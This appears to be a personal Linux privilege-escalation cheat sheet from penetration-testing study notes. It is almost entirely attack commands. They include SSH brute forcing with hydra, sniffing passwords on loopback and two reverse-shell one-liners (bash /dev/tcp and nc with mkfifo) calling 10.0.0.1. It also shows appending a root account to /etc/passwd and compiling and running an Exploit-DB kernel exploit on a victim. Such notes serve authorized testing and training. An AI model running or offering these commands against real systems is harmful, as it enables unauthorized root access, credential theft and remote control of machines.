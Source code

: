 # Linux Privilege Escalation

## Manual enumeration

Commands:
- `id`
- `cat /etc/passwd`
- `hostname`
- `cat /etc/issue`
- `cat /etc/os-realease`
- `uname -a`
- `ps aux`
- `ip a`
- `routel`
- `ss -anp`
- `cat /etc/iptables/rules.v4`
- `ls -lah /etc/cron*`
- `crontab -l`
- `sudo crontab -l`
- `dpkg -l`
- `find / -writable -type d 2> /dev/null`
- `cat /etc/fstab`
- `mount`
- `lsblk`
- `lsmod`
- `/sbin/modinfo some_kernel_module`
- `find / -perm -u=s -type f 2> /dev/null`

## Automated enumeration

Initial baseline:
```
/usr/bin/unix-privesc-check
```
Check for example writable config files.

Other tools:
- LinEnum: https://github.com/rebootuser/LinEnum
- LinPeas: https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS

## Brute force ssh

```
crunch 11 11 -t Password%%% > wordlist
hydra -l user -P wordlist $VictimIP -t 4 ssh -V
```

## Services

```
sudo tcpdump -i lo -A | grep "pass"
watch -n1 "ps auxww | grep pass | grep -v grep | fold -s
```

## Cron jobs

Source: https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet
```
bash -i >& /dev/tcp/10.0.0.1/8080 0>&1
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.0.0.1 1234 >/tmp/f
```

## Passwd file

```
openssl passwd passwordtohash
echo "newadmin:somehaststring:0:0:root:/root:/bin/bash" >> /etc/passwd
```

## SUID

Source: https://gtfobins.github.io/
```
find / -perm /6000 -exec ls -ld {} \; # setuid + setgid
grep Uid /proc/procnum/status
ls -asl /usr/bin/somebin
```

## Sudo

```
searchsploit -u
searchsploit "Linux kernel 4.4.0 privilege escalation"
cp /usr/share/exploitdb/exploits/linux/local/num.c .
gcc num.c
scp num.c victim@IP:
./a.out
```




